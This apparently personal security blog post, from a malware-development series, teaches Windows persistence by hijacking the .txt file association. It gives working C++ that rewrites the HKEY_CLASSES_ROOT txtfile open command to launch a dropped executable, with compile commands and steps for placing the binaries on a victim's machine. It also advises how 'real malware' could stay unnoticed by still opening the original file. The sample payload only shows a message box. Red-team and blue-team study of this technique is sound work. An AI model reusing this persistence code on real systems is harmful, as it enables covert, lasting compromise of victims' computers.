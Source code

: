 ```yaml
---
title:  "Malware development: persistence - part 9. Default file extension hijacking. Simple C++ example."
date:   2022-08-26 05:00:00 +0300
header:
  teaser: "/assets/images/66/2022-08-29_02-25.png"
categories:
  - malware
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![pers](/assets/images/66/2022-08-29_02-25.png){:class="img-responsive"}    

This article is the result of my own research into one of the interesting malware persistence trick: hijacking default file extension.    

### default file association     

For example, when a `.txt` file is double-clicked, `notepad.exe` is used to open it.     

![pers](/assets/images/66/2022-08-29_02-17.png){:class="img-responsive"}    

Windows knows that it must use `notepad.exe` to access `.txt` files because the `.txt` extension (and many others) are mapped to applications that can open such files in the registry: `HKEY_CLASSES_ROOT`.

It is possible to hijacking a default file association to execute a malicious program.     

### practical example    

Let's go to hijack `.txt`. In this case, the `.txt` extension handler is specified in the registry key listed below:     

`HKEY_CLASSES_ROOT\txtfile\shell\open\command`    

Run command:    

```powershell
req query "HKCR\txtfile\shell\open\command" /s
```

![pers](/assets/images/66/2022-08-29_02-19.png){:class="img-responsive"}    

Then, create our "malicious" application:     

```cpp
/*
hack.cpp
evil app for windows persistence via
hijacking default file extension
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/08/26/malware-pers-9.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

As you can see, the logic is pretty simple as usually: just pop-up `meow-meow` messagebox.    

At the next step, hijack the `.txt` file extension by modifying the value data of `\HKEY_CLASSES_ROOT\txtfile\shell\open\command` by this script:     

```cpp
/*
pers.cpp
windows persistence via
hijacking default file extension
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/08/26/malware-pers-9.html
*/
#include <windows.h>
#include <string.h>
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // command for replace
  // "%SystemRoot%\\system32\\NOTEPAD.EXE %1"
  // malicious app
  const char* cmd = "Z:\\2022-08-26-malware-pers-9\\hack.exe";

  // hijacking logic
  LONG res = RegOpenKeyEx(HKEY_CLASSES_ROOT, (LPCSTR)"\\txtfile\\shell\\open\\command", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update key
    RegSetValueEx(hkey, (LPCSTR)"", 0, REG_SZ, (unsigned char*)cmd, strlen(cmd));
    RegCloseKey(hkey);
  }
  return 0;
}
```

As you can see, in this source code we just replace `%SystemRoot%\system32\NOTEPAD.EXE %1` with `Z:\2022-08-26-malware-pers-9\hack.exe`.

### demo

Let's go to see everything in action. Compile our malware:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/66/2022-08-29_04-21.png){:class="img-responsive"}    

The generated `hack.exe` needs to be dropped into the victim’s machine.    

Then, compile the program responsible for persistence:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/66/2022-08-29_04-22.png){:class="img-responsive"}    

The generated `pers.exe` also needs to be dropped into the victim’s machine.     

Then just run:    

```powershell
.\pers.exe
```

![pers](/assets/images/66/2022-08-29_02-21.png){:class="img-responsive"}    

So, try to open `.txt` file, for example double-click `test.txt`:     

![pers](/assets/images/66/2022-08-29_02-22.png){:class="img-responsive"}    

![pers](/assets/images/66/2022-08-29_02-24.png){:class="img-responsive"}    

As you can see, the "malware" will be executed. Perfect! :)    

Then, cleanup:    

```powershell
reg add "HKEY_CLASSES_ROOT\txtfile\shell\open\command" /ve /t REG_SZ /d "%SystemRoot%\system32\NOTEPAD.EXE %1"
```

![pers](/assets/images/66/2022-08-29_02-34.png){:class="img-responsive"}    

It would be good practice to do this (in real malware) with little bit different logic so that the victim user will still be able to open the original `.txt` file, but he will additionally run the malicious activity.     

This persistence trick is used by [SILENTTRINITY](https://attack.mitre.org/software/S0692/) framework and [Kimsuky](https://attack.mitre.org/groups/G0094/) cyber espionage group. This malware was used in a 2019 campaign against Croatian government agencies by unidentified cyber actors.       

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.    

[MITRE ATT&CK: Change Default File Association](https://attack.mitre.org/techniques/T1546/001/)     
[SILENTTRINITY](https://attack.mitre.org/software/S0692/)     
[Kimsuky](https://attack.mitre.org/groups/G0094/)      
[source code on Github](https://github.com/cocomelonc/2022-08-26-malware-pers-9)       

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
